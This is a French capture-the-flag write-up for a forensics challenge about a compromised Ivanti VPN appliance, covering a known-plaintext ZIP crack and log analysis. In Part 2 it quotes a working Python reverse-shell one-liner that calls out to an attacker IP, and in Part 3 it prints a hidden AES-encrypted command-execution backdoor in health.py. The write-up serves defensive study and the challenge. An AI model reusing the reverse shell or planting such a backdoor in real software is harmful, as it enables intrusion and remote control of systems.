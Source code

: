 # Horreur, malheur

## Enoncé 
Vous venez d'être embauché en tant que Responsable de la Sécurité des Systèmes d'Information (RSSI) d'une entreprise stratégique.

En arrivant à votre bureau le premier jour, vous vous rendez compte que votre prédécesseur vous a laissé une clé USB avec une note dessus : `VPN compromis (intégrité). Version 22.3R1 b1647.`

Note : La première partie (Archive chiffrée) débloque les autres parties, à l'exception de la seconde partie (Accès initial) qui peut être traitée indépendamment. Nous vous recommandons de traiter les parties dans l'ordre.

## Partie 1/5
> Sur la clé USB, vous trouvez deux fichiers : une archive chiffrée et les journaux de l'équipement. Vous commencez par lister le contenu de l'archive, dont vous ne connaissez pas le mot de passe. Vous gardez en tête un article que vous avez lu : il paraît que les paquets installés sur l'équipement ne sont pas à jour...

> Le flag est le mot de passe de l'archive.

Pour commencer, listons le contenu de l'archive chiffrée avec `7z l archive.encrypted` :
```
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2024-03-15 15:58:46 .....        64697        64714  tmp/temp-scanner-archive-20240315-065846.tgz
2022-12-05 17:06:09 .....          194          120  home/VERSION
2024-03-15 15:32:38 .....           33           44  data/flag.txt
------------------- ----- ------------ ------------  ------------------------
2024-03-15 15:58:46              64924        64878  3 files
```

Au vu de l'énoncé, la piste la plus probable semble être une forme de *known plaintext attack*. Par élimination, nous devons donc entrer en possession du fichier `home/VERSION`. Pour ce faire plusieurs solutions :
- Tenter d'obtenir une version d'évaluation du serveur VPN de Ivanti (watch me galérer à travers leur formulaire).
- Faire un google dork intelligent sur `"home/VERSION" ivanti` et tomber sur https://www.assetnote.io/resources/research/high-signal-detection-and-exploitation-of-ivantis-pulse-connect-secure-auth-bypass-rce.

Le site nous révèle le contenu du fichier en guise de POC de la RCE, parfait.
```bash
export DSREL_MAJOR=22
export DSREL_MINOR=3
export DSREL_MAINT=1
export DSREL_DATAVER=4802
export DSREL_PRODUCT=ssl-vpn
export DSREL_DEPS=ive
export DSREL_BUILDNUM=1647
export DSREL_COMMENT="R1"
```

En ajoutant un `\n` à la fin du fichier, on obtient bien une taille de 33 bytes, comme le fichier original.

Il faut maintenant mettre en place l'attaque, à l'aide de l'outil [bkcrack](https://github.com/kimci86/bkcrack). En suivant les instructions, on obtient la commande suivante :
```bash
$ ./bkcrack -C ../archive.encrypted -c "home/VERSION" -P ../VERSION.zip -p "VERSION"
[...]
[19:29:46] Attack on 83134 Z values at index 6
Keys: 6ed5a98a a1bb2e0e c9172a2f
[...]
```

Il suffit maintenant de changer le mot de passe de l'archive : 
```bash
$ ./bkcrack -C ../archive.encrypted -k 6ed5a98a a1bb2e0e c9172a2f -U unlocked.zip 123
```

Enfin, extraire l'archive avec le mot de passe `123` et afficher le flag.

## Partie 2/5
> Sur la clé USB, vous trouvez deux fichiers : une archive chiffrée et les journaux de l'équipement. Vous focalisez maintenant votre attention sur les journaux. L'équipement étant compromis, vous devez retrouver la vulnérabilité utilisée par l'attaquant ainsi que l'adresse IP de ce dernier.

> Le flag est au format : FCSC{CVE-XXXX-XXXXX:\<adresse_IP\>}.

Pour commencer, une simple recherche Google de la version donnée en énoncé nous apprend que le VPN étudié est celui d'Ivanti. Cette version spécifique est vulnérable à deux CVE : CVE-2023-46805 (Auth. Bypass) et CVE-2024-21887 (RCE) (cf. https://www.assetnote.io/resources/research/high-signal-detection-and-exploitation-of-ivantis-pulse-connect-secure-auth-bypass-rce). 

Concernant l'IP utilisée par l'attaquant, il suffit de fouiller un peu dans les logs fournis pour retrouver une commande de reverse-shell python dans le fichier `nodemonlog.old` :
```bash
python -c import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("20.13.3.0",4444));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())
```
On en extrait facilement l'IP `20.13.3.0`.

Il suffit donc de composer les deux possibilités de flag à partir de ces infos.

## Partie 3/5
> Vous avez réussi à déchiffrer l'archive. Il semblerait qu'il y ait dans cette archive une autre archive, qui contient le résultat du script de vérification d'intégrité de l'équipement.

> À l'aide de cette dernière archive et des journaux, vous cherchez maintenant les traces d'une persistance déposée et utilisée par l'attaquant.

Grâce à la première archive décompressée, nous obtenons l'accès à `temp-scanner-archive-20240315-065846.tgz`. Une fois elle-même décompressée, cette archive nous révèle un simple script de config, ainsi qu'un environnement virtuel python. En creusant dans cet environnement, on trouve le fichier `tmp/home/venv3/lib/python3.6/site-packages/cav-0.1-py3.6.egg`. Ce type de fichier est à nouveau décompressable ce qui nous donne accès au code gérant le serveur CAV, dont nous possédons les logs depuis la première étape.

En investigant chacun des scripts, on se rend compte que le fichier `health.py` de l'api est totalement anormal :
```python
#
# Copyright (c) 2018 by Pulse Secure, LLC. All rights reserved
#
import base64
import subprocess
import zlib
import simplejson as json
from Cryptodome.Cipher import AES
from Cryptodome.Util.Padding import pad, unpad
from flask import request
from flask_restful import Resource


class Health(Resource):
    """
    Handles requests that are coming for client to post the application data.
    """

    def get(self):
        try:
            with open("/data/flag.txt", "r") as handle:
                dskey = handle.read().replace("\n", "")
            data = request.args.get("cmd")                                        # ATTEND UN PARAMETRE CMD DANS LA REQUETE
            if data:
                aes = AES.new(dskey.encode(), AES.MODE_ECB)
                cmd = zlib.decompress(aes.decrypt(base64.b64decode(data)))        # DECODE LE BASE64 PUIS DECHIFFRE AVEC LA CLE AES
                result = subprocess.getoutput(cmd)                                # EXECUTE LA COMMANDE DECHIFREE
                if not isinstance(result, bytes): result = str(result).encode()
                result = base64.b64encode(aes.encrypt(pad(zlib.compress(result), 32))).decode()
                return result, 200                                                # RETOURNE LE RESULTAT DE LA COMMANDE
        except Exception as e:
            return str(e), 501
```

Pour retrouver les commandes executées par l'attaquant, il faut donc patcher ce script pour afficher les commandes et retrouver dans le fichier de log `cav_webserv.log` chaque occurence du paramètre `?cmd=`.

```python
import base64
import zlib
from Cryptodome.Cipher import AES
from Cryptodome.Util.Padding import pad, unpad

dskey = "50c53be3eece1dd551bebffe0dd5535c"
data = "/ppF2z0iUCf0EHGFPBpFW6pWT4v/neJ6wP6dERUuBM/6CAV2hl/l4o7KqS7TvTZAWDVxqTd6EansrCTOAnAwdQ=="

if data:
    aes = AES.new(dskey.encode(), AES.MODE_ECB)
    cmd = zlib.decompress(aes.decrypt(base64.b64decode(data)))
    print(cmd)
```

En décodant successivement, on obtient :
```bash
id
ls /
echo FCSC{REDACTED}
[...]
```

## Partie 4/5
> Vous remarquez qu'une fonctionnalité built-in de votre équipement ne fonctionne plus et vous vous demandez si l'attaquant n'a pas utilisé la première persistance pour en installer une seconde, moins "visible"...

> Vous cherchez les caractéristiques de cette seconde persistance : protocole utilisé, port utilisé, chemin vers le fichier de configuration qui a été modifié, chemin vers le fichier qui a été modifié afin d'établir la persistance.

> Le flag est au format : FCSC{\<protocole\>:\<port\>:\<chemin_absolu\>:\<chemin_absolu\>}.
## Partie 5/5
> Vous avez presque fini votre analyse ! Il ne vous reste plus qu'à qualifier l'adresse IP présente dans la dernière commande utilisée par l'attaquant.

> Vous devez déterminer à quel groupe d'attaquant appartient cette adresse IP ainsi que l'interface de gestion légitime qui était exposée sur cette adresse IP au moment de l'attaque.

> Le flag est au format : FCSC{\<UNCXXXX\>:\<nom du service\>}.

> Remarque : Il s'agit d'une véritable adresse IP malveillante, n’interagissez pas directement avec cette adresse IP.
